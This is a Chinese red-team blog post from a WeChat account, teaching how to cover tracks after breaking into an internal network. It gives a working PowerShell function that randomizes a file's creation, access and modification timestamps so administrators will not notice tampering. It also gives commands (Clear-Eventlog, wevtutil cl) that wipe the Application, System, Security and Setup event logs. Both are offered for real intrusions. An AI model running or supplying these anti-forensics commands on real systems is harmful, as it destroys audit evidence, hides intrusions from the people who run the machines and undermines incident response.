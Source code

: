 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Kn4ppLlG5BpxMheNOj2usw)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **51** 篇文章，本公众号会记录一些红队攻击的笔记（由浅到深），不定时更新

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

痕迹清理

在我们做完一系列的内网渗透操作后，必然会留下一些蛛丝马迹，因此我们需要给自己” 擦屁股 “。本篇只介绍如何清除系统日志、修改文件时间戳。

**痕迹清理**

**Powershell 修改文件时间戳**

有时候我们在登陆目标桌面后，根据需求可能会动用目标主机上的文件或者文件夹，而一些管理员很久都不会登陆一次主机；设想当管理员一上线看到自己的文件夹日期有异常，是否会怀疑？  

```
Function edit_time($path){$date1 =Get-ChildItem | 
Select LastWriteTime|Get-Random;$date2 =Get-ChildItem |
Select LastWriteTime|Get-Random;$date3 =Get-ChildItem |
Select LastWriteTime|Get-Random;$(Get-Item $path).lastaccesstime=$date1.LastWriteTime;
$(Get-Item $path).creationtime=$date2.LastWriteTime ;
$(Get-Item $path).lastwritetime=$date3.LastWriteTime};
edit_time("C:\Users\saulGoodman\Desktop\工具包\pass.txt")
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKvs9oLh1ibkLYp8icLJSQ6UWI1ruMjq1ZVTyMdqCyf3pnz4tqHowJsrSDCibAyrQrMRfKhkv9nKuXag/640?wx_fmt=png)

**Powershell 清除系统日志**

当我们做了一些操作都会记录到时间查看器里，而下面的 Powershell 就可清除相关日志：

```
PowerShell -Command "& {Clear-Eventlog -Log Application,System,Security}"
Get-WinEvent -ListLog Application,Setup,Security -Force | % {Wevtutil.exe cl $_.Logname}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKvs9oLh1ibkLYp8icLJSQ6UWjjZpJ6LjGEibaYkhIdHUsy6w5ibicq2orA1J0Pgf3Hc2nYh1T1UuZPD0A/640?wx_fmt=png)  

本篇只讲了两个小技巧，在实战中够用一些了，之后有空在发其他技巧。

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看
